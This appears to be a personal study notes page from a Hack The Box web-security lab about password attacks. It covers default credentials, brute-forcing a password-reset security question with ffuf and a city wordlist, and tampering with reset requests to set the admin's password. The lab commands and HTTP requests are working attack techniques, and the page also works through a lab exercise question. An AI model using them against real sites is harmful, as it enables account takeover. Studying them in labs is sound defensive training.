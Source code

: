 # 👩‍🦰 Password Attacks

## Default Credentials

Many web applications are set up with default credentials to allow accessing it after installation. However, these credentials need to be changed after the initial setup of the web application

Here are lists of default credentials for a wide variety of web applications: [CIRT.net](https://www.cirt.net/passwords) also [SecLists Default Credentials](https://github.com/danielmiessler/SecLists/tree/master/Passwords/Default-Credentials) as well as the [SCADA](https://github.com/scadastrangelove/SCADAPASS/tree/master) GitHub

let's imagine the following web app:

<figure><img src="../../../.gitbook/assets/image (11).png" alt=""><figcaption></figcaption></figure>

We can spot it's a bookstack web app, we can then go and see if we can't find some default creds online ->

<figure><img src="../../../.gitbook/assets/image (1) (1).png" alt=""><figcaption></figcaption></figure>

## Vulnerable Password Reset

### Guessable Password Reset

We could imagine questions like the following:

* "`What is your mother's maiden name?`"
* "`What city were you born in?`"

Then it's on us to chase for the good wordlist such as [this](https://github.com/datasets/world-cities/blob/master/data/world-cities.csv) CSV file contains a list of more than 25,000 cities with more than 15,000 inhabitants from all over the world.

```shell-session
cat world-cities.csv | cut -d ',' -f1 > city_wordlist.txt
wc -l city_wordlist.txt 
```

so let's imagine after entering our username wer got asked a question, it would look like this:

<figure><img src="../../../.gitbook/assets/image (2) (1).png" alt=""><figcaption></figcaption></figure>

and now it's on us to craft a payload:

```shell-session
ElFelixi0@htb[/htb]$ ffuf -w ./city_wordlist.txt -u http://pwreset.htb/security_question.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -b "PHPSESSID=39b54j201u3rhu4tab1pvdb4pv" -d "security_response=FUZZ" -fr "Incorrect response."

<SNIP>

[Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 0ms]
    * FUZZ: Houston
```

and then we can reset password

But let's imagine we had a nice osint phase, we could pretty much guess from which country is the person from the website or the social media, we can go deaper and make a more accurate list:

```shell-session
cat world-cities.csv | grep Germany | cut -d ',' -f1 > german_cities.txt
```

### Manipulating the Reset Request

let's imagine the following:

<figure><img src="../../../.gitbook/assets/image (1355).png" alt=""><figcaption></figcaption></figure>

```http
POST /reset.php HTTP/1.1
Host: pwreset.htb
Content-Length: 18
Content-Type: application/x-www-form-urlencoded
Cookie: PHPSESSID=39b54j201u3rhu4tab1pvdb4pv

username=htb-stdnt
```

after that we have the security question ->

```http
<SNIP>
security_response=London&username=htb-stdnt
```

Finally, we can reset the user's password:&#x20;

```http
<SNIP>
password=P@$$w0rd&username=htb-stdnt
```

We can imagine that we can skip the security question and set the password of an entirely different account

```http
password=P@$$w0rd&username=admin
```

_**Which city is the admin user from?**_

<figure><img src="../../../.gitbook/assets/image (1356).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (1357).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (1358).png" alt=""><figcaption></figcaption></figure>

```
ffuf -w city_wordlist.txt -u http://94.237.59.63:43371/security_question.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -b "PHPSESSID=j0527s0oqrj0q0s6qh30c626ma" -d "security_response=FUZZ" -fr "Incorrect response."
```

<figure><img src="../../../.gitbook/assets/image (1359).png" alt=""><figcaption></figcaption></figure>
